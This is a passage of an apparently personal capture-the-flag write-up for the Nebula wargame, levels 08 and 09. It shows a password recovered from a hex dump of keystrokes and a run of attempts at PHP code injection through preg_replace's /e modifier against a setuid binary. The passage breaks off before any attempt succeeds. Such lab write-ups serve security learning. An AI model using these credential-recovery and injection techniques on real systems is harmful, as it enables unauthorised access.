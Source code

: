 Inspecting in hex code:
```sh
000000B9  62                                                 b
000000BA  61                                                 a
000000BB  63                                                 c
000000BC  6b                                                 k
000000BD  64                                                 d
000000BE  6f                                                 o
000000BF  6f                                                 o
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  30                                                 0
000000C5  30                                                 0
000000C6  52                                                 R
000000C7  6d                                                 m
000000C8  38                                                 8
000000C9  7f                                                 .
000000CA  61                                                 a
000000CB  74                                                 t
000000CC  65                                                 e
000000CD  0d                                                 .
```

the backspace key is often mapped to the delete character (0x7f in ASCII or Unicode), so password is backd00Rmate : 

```sh
sh-4.2$ su flag08
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
```

## level09 
[task description](https://exploit-exercises.lains.space/nebula/level09/)


In PHP, preg_replace with /e is insecure and deprecated and lead to arbitrary code execution.
Many-many-many tries:
```sh
sh-4.2$ echo "[email(system($use_me))]" > /tmp/9
sh-4.2$ ./flag09 /tmp/9 getflag
<email(system())>
sh-4.2$ echo "[email(phpinfo())]" > /tmp/9
sh-4.2$ ./flag09 /tmp/9 getflag
<email(phpinfo())>
sh-4.2$ echo "[email phpinfo()]" > /tmp/9
sh-4.2$ ./flag09 /tmp/9 getflag
phpinfo()
sh-4.2$ echo "[email {phpinfo()]" > /tmp/9
sh-4.2$ echo "[email ${phpinfo()}]" > /tmp/9
sh: [email ${phpinfo()}]: bad substitution
sh-4.2$ echo "[email ${phpinfo()}]" > /tmp/9
sh: [email ${phpinfo()}]: bad substitution
sh-4.2$ echo "[email {${phpinfo()}}]" > /tmp/9
sh: [email {${phpinfo()}}]: bad substitution
sh-4.2$ echo "[email {${phpinfo()}}]" > /tmp/10
sh: [email {${phpinfo()}}]: bad substitution
sh-4.2$ echo "" > /tmp/9
sh-4.2$ echo "[emain phpinfo()]" > /tmp/9
sh-4.2$ ./flag09 /tmp/9 getflag
<emain phpinfo()>
sh-4.2$ echo "[emain $phpinfo()]" > /tmp/9
sh-4.2$ ./flag09 /tmp/9 getflag
```